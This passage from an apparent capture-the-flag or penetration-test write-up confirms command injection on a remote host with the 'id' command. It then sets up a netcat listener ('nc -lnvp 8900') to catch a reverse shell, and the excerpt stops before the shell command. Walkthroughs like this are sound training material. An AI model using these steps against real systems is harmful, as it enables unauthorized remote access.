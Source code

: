 And it works ! I tried to run the `id` command on the system. I added a `#` to ignore the potential continuation of the command, and I've url encoded all.

Now that we have the ability to execute commands on the remote host, we will try to get a [reverse shell](https://fr.wikipedia.org/wiki/Reverse_shell) for convenience.

First, we will listen on our local machine ( we will set up a [TCP socket](https://www.keil.com/pack/doc/mw6/Network/html/using_network_sockets_tcp.html) listening on any port, such as 8900 for example ) :

```bash
nc -lnvp 8900
```

Next, let's check if [netcat](https://en.wikipedia.org/wiki/Netcat) is installed on the remote machine :

![image](/assets/img/burp5.png)

Yes, it is. We will then be able to issue a connection on our TCP socket with [netcat](https://en.wikipedia.org/wiki/Netcat), and execute a shell ( for example [bash](https://en.wikipedia.org/wiki/Bash_(Unix_shell)) ). Which will return us a shell of the remote host via [netcat](https://en.wikipedia.org/wiki/Netcat) :

